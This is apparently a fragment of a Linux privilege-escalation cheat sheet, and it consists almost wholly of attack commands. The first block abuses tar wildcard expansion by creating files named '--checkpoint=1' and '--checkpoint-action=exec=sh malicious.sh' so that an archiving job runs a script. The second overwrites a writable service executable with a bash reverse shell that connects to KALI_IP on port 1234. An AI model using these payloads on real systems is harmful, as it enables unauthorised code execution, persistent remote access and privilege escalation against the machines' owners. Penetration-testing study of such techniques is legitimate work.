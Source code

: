 ```shell
touch '/tmp/--checkpoint=1'
touch '/tmp/--checkpoint-action=exec=sh malicious.sh'
```
## writeable service
***If you find writable binaries or scripts, you can write reverse shell***
```shell
echo 'bash -i >& /dev/tcp/KALI_IP/1234 0>&1' > /path/to/service_executable
chmod +x /path/to/service_executable
```

